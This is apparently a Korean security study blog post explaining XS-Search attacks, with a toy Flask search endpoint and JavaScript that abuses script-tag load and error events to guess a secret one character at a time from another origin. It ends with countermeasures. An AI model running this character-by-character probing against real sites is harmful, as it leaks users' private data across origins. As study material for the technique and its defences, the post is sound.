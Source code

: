 ```yaml
---
title: "[2025-08-19] XS-Search"
excerpt: "XS-Search 개념, 공격 종류 및 대응 방법"

categories:
  - Justice
tags:
  - [XS-Search, XSS]

permalink: /Justice/[2025-08-19] XS-Search/

toc: true
toc_sticky: true

date: 2025-08-19
last_modified_at: 2025-08-19
---
```


## 🦥 본문

### 정의 및 개념

Cross-Site Search. 쿼리 기반 시스템을 이용해 이용자의 비밀 정보를 유출하는 기법. 주로 웹 애플리케이션에서 검색 기능을 이용해 사용자의 민감한 정보를 유출. 

### 예제

GET 파라미터로 쿼리 형태의 입력을 받고, 비밀값이 쿼리 값으로 시작한다는 조건이 부합한다면 OK와 200 응답 코드. 아니면 NO 라는 메시지와 404 응답 코드. 

```html
secret = "this_is_secret_value"

@app.route('/search')
def search_secret():
    query = request.args.get("query", "_")
    if secret.startswith(query):
        return "OK", 200
    else:
        return "NO", 404
```

- `secret` 값이 이용자의 비밀 정보일 때, 일반적으로 공격자의 페이지에서 해당 오리진으로 xhr 요청을 보내게 되면 SOP 정책에 막힘
    
    ```html
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://localhost:8000/search?query=t');
    
    xhr.onload = function () {
      console.log('Status Code:', xhr.status);
      console.log('Response Text:', xhr.responseText);
    };
    
    xhr.send();
    ```
    
- SOP 우회 방법
    
    `<img>`, `<style>`, `<script>` 등의 태그는 SOP의 영향을 받지 않음
    
    ```html
    function req(url) {
        let script = document.createElement('script');
        script.src = url;
        script.onload = () => console.log(200);
        script.onerror = () => console.log(404);
        document.head.appendChild(script);
    }
    
    req('http://localhost:8000/search?query=a');
    req('http://localhost:8000/search?query=t');
    ```
    
    - 현재 문서에 `script` 태그를 생성하고 src 속성을 공격 대상 오리진의 URL로 설정한 후, 로드하는데 성공했는지 실패했는지의 여부를 통해 200, 404를 구분할 수 있음
    - 응답 코드를 통해 Blind SQLi처럼 한 글자씩 유추 가능
        
        ```html
        async function req(url) {
            return await new Promise((resolve, reject) => {
                const script = document.createElement("script");
                script.src = url;
                script.onload = resolve;
                script.onerror = reject;
        
                document.head.appendChild(script);
            });
        }
        
        async function search(query) {
            try {
                await req(
                  `http://localhost:8000/search?query=${query}`
                );
                return true;
            } catch (e) {
                return false;
            }
        }
        
        async function exploit() {
            let chars = "_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
            let secret_length = 20;
            let secret = "";
        
            for (let i = 0; i < secret_length; i++) {
                for (let c of chars) {
                    if (await search(secret + c)) {
                        secret += c;
                        console.log(`found: ${secret}`);
                        break;
                    }
                }
            }
        }
        
        exploit()
        ```
        

### 대응 방법

1. 검색 결과의 응답 크기/시간 균등화
    - 존재 여부와 관계없이 비슷한 응답 크기 반환
    - 일정한 시간 딜레이를 적용해 타이밍 기반 분석을 어렵게 함
2. Cross-Origin 정책 강화
    - `X-Frame-Options`, `Cross-Origin-Resource-Policy`, `Cross-Origin-Opener-Policy` 적용
    - 다른 출처에서 검색 결과를 로드하지 못하도록 차단
3. Rate Limiting & Captcha 적용
    - 공격자가 대량 시도를 하지 못하게 제한
4. 로그 모니터링
    - 비정상적인 반복적 검색 요청 탐지